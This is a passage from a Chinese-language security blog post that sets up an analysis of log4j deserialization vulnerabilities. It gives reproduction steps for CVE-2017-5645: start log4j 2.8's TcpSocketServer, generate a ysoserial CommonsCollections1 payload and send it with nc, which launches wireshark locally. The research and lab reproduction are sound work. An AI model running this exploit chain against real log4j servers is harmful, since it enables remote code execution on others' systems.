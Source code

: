 ### 0x01 前言

最近不是爆出了一个log4j的反序列化吗，巧的是我正好在总结java反序列化的知识，其实一开始是没太关注这个漏洞的，毕竟，log4j只是一个组件，即使有反序列化的触发点，没有pop gadgets也不能利用，不像各大中间件的反序列化，自带的类库中有各种各样的pop链可以利用，找到触发点就可以直接打～

但是，那天在群里聊天:
a师傅：CVE-2019-17571漏洞通报链接，群里有没有人复现了这个漏洞？
b师傅：最新的？又反序列化了？
c师傅：不会放出exp的，exp应该只有实验室的人有
d师傅：有分析文章出来了，poc也就不远了～

看到大师傅们的交流，我就想试着自己分析分析，顺便挖挖log4j中有没有自带的pop gadgets可以利用，由于之前没有分析过log4j的反序列化，在查阅资料的过程中得知log4j还有一个反序列化漏洞CVE-2017-5645，这里就顺带一起分析了吧。

### 0x02 CVE-2017-5645

####　复现

复现环境：
- jdk1.7
- log4j 2.8  （下载地址：https://logging.apache.org/log4j/log4j-2.8/download.html)
- commons-collections 3.1
- jcommander-1.48.jar

复现步骤：

下载完log4j 2.8过后会有一大堆的jar文件，jcommander-1.48.jar与commons-collections.jar需要单独下载，jcommander如果没有会导致有些类找不到，把所有jar放到与log4j的jar文件同一目录下，然后在该目录下执行以下命令，开启log4j监听：

`java -cp log4j-core-2.8.jar:log4j-api-2.8.jar:jcommander-1.48.jar:commons-collections-3.1.jar org.apache.logging.log4j.core.net.server.TcpSocketServer  -p 7777`

然后利用ysoserial生成一个反序列化的payload

`java -jar ysoserial-0.0.6-SNAPSHOT-BETA-all.jar CommonsCollections1 "wireshark" > commons1.ser`

然后直接利用nc发送payload:

`nc 127.0.0.1 7777 < commons1.ser`

成功弹出wireshark:

![](log4j_unser/wireshark.png)